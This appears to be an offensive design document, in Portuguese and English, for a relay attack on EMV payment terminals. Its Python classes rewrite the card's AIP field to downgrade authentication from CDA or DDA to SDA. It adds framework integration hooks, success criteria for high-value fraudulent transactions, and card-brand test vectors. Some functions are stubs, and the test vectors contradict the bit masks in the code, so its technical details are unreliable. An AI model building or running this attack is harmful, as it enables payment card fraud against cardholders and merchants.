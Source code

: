 # Attack Vector 1: Selective Authentication Downgrade Attack

## Concept
**Nome:** "Downgrade Criptográfico Seletivo"
**Alvo:** Lógica de seleção de método de autenticação do terminal EMV
**Objetivo:** Forçar um terminal a aceitar autenticação mais fraca (CDA → DDA → SDA) através da manipulação de campos AIP em ataques de relay.

## Technical Description

### Attack Flow
1. **Interception Phase**: O relay intercepta o GET_PROCESSING_OPTIONS response
2. **AIP Manipulation**: Modifica o campo AIP para downgrade do método de autenticação
3. **Terminal Exploitation**: Terminal aceita a autenticação mais fraca sem validação adequada
4. **Transaction Completion**: Transação de alto valor processada com segurança inadequada

### Vulnerable Components
- **AIP Field**: Application Interchange Profile (Tag 82)
- **TSI Field**: Transaction Status Information (complementar ao AIP)
- **Terminal Authentication Logic**: Falta de validação cruzada entre capacidades anunciadas

### Implementation Details

#### Core Exploit Logic (Python)
```python
class AuthDowngradeAttack:
    def __init__(self, relay_server):
        self.relay_server = relay_server
        self.target_auth_methods = ['SDA', 'DDA', 'CDA']
        
    def intercept_gpo_response(self, apdu_response):
        """
        Intercepta GPO response e modifica AIP para downgrade
        """
        # Parse TLV structure
        tlv_data = self.parse_tlv(apdu_response)
        
        # Locate AIP (Tag 82)
        aip_tag = tlv_data.get('82')  # Application Interchange Profile
        if not aip_tag:
            return apdu_response
            
        # Extract current authentication method
        current_auth = self.extract_auth_method(aip_tag)
        
        # Force downgrade to weakest available
        if current_auth == 'CDA':
            modified_aip = self.modify_aip_to_sda(aip_tag)
        elif current_auth == 'DDA':
            modified_aip = self.modify_aip_to_sda(aip_tag)
        else:
            return apdu_response  # Already SDA
            
        # Rebuild APDU with modified AIP
        return self.rebuild_apdu(tlv_data, {'82': modified_aip})
    
    def modify_aip_to_sda(self, original_aip):
        """
        Modifica AIP para forçar SDA (autenticação mais fraca)
        AIP Byte 1, Bits:
        - Bit 6 (0x40): SDA supported
        - Bit 5 (0x20): DDA supported  
        - Bit 1 (0x02): CDA supported
        """
        aip_bytes = bytearray(original_aip)
        
        # Clear CDA and DDA bits, set only SDA
        aip_bytes[0] &= ~0x02  # Clear CDA bit
        aip_bytes[0] &= ~0x20  # Clear DDA bit
        aip_bytes[0] |= 0x40   # Set SDA bit
        
        return bytes(aip_bytes)
    
    def validate_downgrade_success(self, terminal_response):
        """
        Verifica se o terminal aceitou o downgrade
        """
        # Check if terminal proceeded with SDA
        return 'SDA' in self.extract_processing_method(terminal_response)

# Integration with relay framework
class RelayServerExtension:
    def __init__(self):
        self.downgrade_attack = AuthDowngradeAttack(self)
        
    def process_apdu(self, apdu_data, direction):
        if direction == 'CARD_TO_TERMINAL':
            if self.is_gpo_response(apdu_data):
                return self.downgrade_attack.intercept_gpo_response(apdu_data)
        return apdu_data
```

#### Terminal Validation Bypass
```python
def bypass_terminal_validation(self, aip_modified):
    """
    Explora falhas na validação de consistência do terminal
    """
    # Exploit 1: Inconsistent AIP vs AFL
    # Terminal não valida se AFL suporta método anunciado no AIP
    
    # Exploit 2: Missing cross-validation
    # Ausência de validação cruzada entre AIP e Card capabilities
    
    # Exploit 3: Timing window exploitation
    # Manipulação durante janela entre SELECT e GPO
    
    return True
```

## Framework Integration

### Modifications Required

#### In `exploit_engine` module:
```python
# Add to exploit_engine/attacks/auth_downgrade.py
class AuthDowngradeModule:
    def __init__(self, core_toolkit):
        self.tlv_parser = core_toolkit.tlv_parser
        self.apdu_builder = core_toolkit.apdu_builder
        
    def execute_attack(self, target_terminal, victim_card):
        # Implementation here
        pass
```

#### In `relay_server` module:
```python
# Add to relay_server/processors/attack_processor.py
def apply_auth_downgrade(self, apdu_data):
    if self.is_target_apdu(apdu_data, 'GPO_RESPONSE'):
        return self.auth_downgrade.process(apdu_data)
    return apdu_data
```

## Success Criteria
- Terminal aceita SDA para transações de alto valor
- Bypass de validações de integridade do terminal
- Tempo de ataque < 100ms (dentro da janela de relay)

## Countermeasures
- Validação cruzada obrigatória entre AIP e AFL
- Verificação de consistência com capabilities anunciadas
- Timeout reduzido para respostas de autenticação

## Testing Vectors
1. **Mastercard CDA → SDA**: AIP 0x5C00 → 0x4C00
2. **Visa DDA → SDA**: AIP 0x2000 → 0x4000  
3. **High-value NoPIN**: Combinação com transações > limite CVM